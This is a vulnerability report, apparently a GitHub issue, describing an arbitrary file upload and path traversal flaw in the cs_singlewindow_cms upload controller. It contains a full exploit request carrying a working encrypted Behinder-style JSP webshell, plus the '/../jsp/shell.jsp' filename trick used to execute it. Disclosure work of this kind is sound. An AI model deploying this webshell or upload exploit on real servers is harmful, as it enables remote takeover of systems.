


**BUG_Author:**

hadagaga

**Vendor:**

https://github.com/xitaofeng/cs_singlewindow_cms

**Software:**

https://github.com/xitaofeng/cs_singlewindow_cms

**Vulnerability File:**

#### src/main/java/com/jspxcms/core/web/back/WebFileUploadsController.java

Controller:

```java
	@RequiresPermissions("core:web_file_2:upload")
	@RequestMapping("upload.do")
	public void upload(@RequestParam(value = "file", required = false) MultipartFile file, String parentId,
			HttpServletRequest request, HttpServletResponse response) throws IllegalStateException, IOException {
		super.upload(file, parentId, request, response);
	}

```

Functions for file upload:

```java
	protected void upload(MultipartFile file, String parentId, HttpServletRequest request, HttpServletResponse response)
			throws IllegalStateException, IOException {
		Site site = Context.getCurrentSite();
		// parentId = parentId == null ? base : parentId;
		String base = getBase(site);
		if (!Validations.uri(parentId, base)) {
			throw new CmsException("invalidURI", parentId);
		}
		FileHandler fileHandler = getFileHandler(site);
		fileHandler.store(file, parentId);
		logService.operation("opr.webFile.upload", parentId + "/" + file.getOriginalFilename(), null, null, request);
		logger.info("upload file, name={}.", parentId + "/" + file.getOriginalFilename());
		Servlets.writeHtml(response, "true");
	}
```

​	The approximate function of this function is to get the site information, verify the input parameters, then save the file, and then write the file information to the log.

```java
public static boolean uri(String value, String prefix) {
    return !StringUtils.contains(value, "..")
            && StringUtils.startsWith(value, prefix);
}
```

​	There's a filter here..', but the strange thing is that the filtered parentId is not the file name, and the file name is not modified, and there is not even a check on the suffix, so there is an arbitrary file upload and directory penetration here, and then this project will also parse the JSP, but it needs to be put in the JSP folder under the webapp, but there is also a directory penetration here, so this is not a problem, come to the front-end function point.

​	

​	After uploading the file, the following packets are obtained:

```http
POST /cmscp/core/web_file_2/upload.do?_site=1 HTTP/1.1
Host: 192.168.227.43:8888
Content-Length: 2387
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: text/html, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZzeGAny76zA7fCma
Origin: http://192.168.227.43:8888
Referer: http://192.168.227.43:8888/cmscp/core/web_file_2/list.do?parentId=%2F1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: select_id=%2F1; open_ids=%2F1; _site=1; JSESSIONID=526DEDE9E36FE99249985E52A100BE8E
Connection: close

------WebKitFormBoundaryZzeGAny76zA7fCma
Content-Disposition: form-data; name="parentId"

/1
------WebKitFormBoundaryZzeGAny76zA7fCma
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,java.io.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
    private byte[] Decrypt(byte[] data) throws Exception
    {
        String k="e45e329feb5d925b";
        javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES/ECB/PKCS5Padding");c.init(2,new javax.crypto.spec.SecretKeySpec(k.getBytes(),"AES"));
        byte[] decodebs;
        Class baseCls ;
                try{
                    baseCls=Class.forName("java.util.Base64");
                    Object Decoder=baseCls.getMethod("getDecoder", null).invoke(baseCls, null);
                    decodebs=(byte[]) Decoder.getClass().getMethod("decode", new Class[]{byte[].class}).invoke(Decoder, new Object[]{data});
                }
                catch (Throwable e)
                {
                    baseCls = Class.forName("sun.misc.BASE64Decoder");
                    Object Decoder=baseCls.newInstance();
                    decodebs=(byte[]) Decoder.getClass().getMethod("decodeBuffer",new Class[]{String.class}).invoke(Decoder, new Object[]{new String(data)});

                }
        return c.doFinal(decodebs);

    }
%>
<%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return
        super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            byte[] buf = new byte[512];
            int length=request.getInputStream().read(buf);
            while (length>0)
            {
                byte[] data= Arrays.copyOfRange(buf,0,length);
                bos.write(data);
                length=request.getInputStream().read(buf);
            }
            /* 取消如下代码的注释，可避免response.getOutputstream报错信息，增加某些深度定制的Java web系统的兼容性
            out.clear();
            out=pageContext.pushBody();
            */
            out.clear();
            out=pageContext.pushBody();
        new U(this.getClass().getClassLoader()).g(Decrypt(bos.toByteArray())).newInstance().equals(pageContext);}
%>
------WebKitFormBoundaryZzeGAny76zA7fCma--

```

​	Modify the file name as: /.. /jsp/shell.jsp, after which we visit [192.168.227.43:8888/shell.jsp] (http://192.168.227.43:8888/shell.jsp), we will find that there is no prompt 404, that is, the horse is successful, we use the ice scorpion link, and enter the calc command to pop up the computer, and it can be seen that the command was successfully executed.

